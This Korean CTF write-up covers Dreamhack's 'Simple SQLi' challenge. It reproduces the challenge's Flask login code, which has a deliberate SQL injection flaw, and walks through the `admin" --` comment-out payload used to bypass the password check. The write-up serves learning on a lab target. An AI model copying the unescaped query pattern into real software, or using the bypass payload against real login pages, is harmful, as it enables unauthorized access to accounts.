 ```yaml
---
title: "[CTF] 드림핵 Simple SQLi"
date: 2025-09-18 18:40:00 +0900
categories: [CTF, Web]
tags: [CTF, SQLi]
description: "드림핵 Simple SQLi"
toc: true
---
```


## 문제 개요
이번 문제는 로그인 기능이 있는 간단한 웹앱으로, 입력값을 그대로 SQL 쿼리에 삽입하는 구조였다. 딱 봐도 기본적인 SQL 인젝션(SQLi)이 가능해 보였다.

- `/login` : POST로 받은 `userid`, `userpassword`를 이용해 다음과 같은 쿼리를 수행한다.  
  ```sql
  select * from users where userid="{userid}" and userpassword="{userpassword}"
  ```
- 쿼리 결과에서 `userid == 'admin'`이면 FLAG를 반환한다.

아래는 문제에서 제공된 **원본 소스코드 전체**다.

```python
#!/usr/bin/python3
from flask import Flask, request, render_template, g
import sqlite3
import os
import binascii

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

DATABASE = "database.db"
if os.path.exists(DATABASE) == False:
    db = sqlite3.connect(DATABASE)
    db.execute('create table users(userid char(100), userpassword char(100));')
    db.execute(f'insert into users(userid, userpassword) values ("guest", "guest"), ("admin", "{binascii.hexlify(os.urandom(16)).decode("utf8")}");')
    db.commit()
    db.close()

def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect(DATABASE)
    db.row_factory = sqlite3.Row
    return db

def query_db(query, one=True):
    cur = get_db().execute(query)
    rv = cur.fetchall()
    cur.close()
    return (rv[0] if rv else None) if one else rv

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    else:
        userid = request.form.get('userid')
        userpassword = request.form.get('userpassword')
        res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
        if res:
            userid = res[0]
            if userid == 'admin':
                return f'hello {userid} flag is {FLAG}'
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        return '<script>alert("wrong");history.go(-1);</script>'

app.run(host='0.0.0.0', port=8000)
```

---

## 내가 실제로 푼 방법
소스코드를 확인하자마자 SQL 인젝션 포인트가 뻔히 보였다.

```sql
select * from users where userid="{userid}" and userpassword="{userpassword}"
```

조건에서 `userid == 'admin'`일 때 FLAG를 주기 때문에, admin 계정이 존재함을 알 수 있다. 그렇다면 `userid` 입력에 `"--`를 사용해 뒤를 주석 처리하면 쉽게 우회할 수 있다.

### 내가 사용한 입력값
- `userid`:  
  ```
  admin" --
  ```
- `userpassword`:  
  ```
  아무거나
  ```

### 최종 실행된 쿼리
```sql
select * from users where userid="admin" -- " and userpassword="아무거나"
```

이 구문은 뒤가 주석 처리되면서 단순히:
```sql
select * from users where userid="admin"
```
으로 축약된다.

결과적으로 admin 사용자의 데이터가 반환되고, FLAG를 획득할 수 있었다.

---

## 재현 흐름
1. 공격자: `/login`에서 userid에 `admin" --`, pw에 아무 값 입력  
2. 서버: 최종 쿼리는 `select * from users where userid="admin"`  
3. 쿼리 결과 admin 계정 반환  
4. 조건문 `if userid == 'admin'` → FLAG 출력  
5. 공격자: FLAG 확인 성공

---

## 왜 이게 가능했나
입력값을 이스케이프 없이 그대로 SQL 문자열에 삽입하여 기본적인 SQLi가 발생했기 때문이다.

---

## 마무리
simple_sqli 문제는 정말 기본적인 SQL 인젝션 예제였다. 가장 전형적인 `"--` 주석 처리 기법으로 admin 계정에 접근해 FLAG를 획득했다.
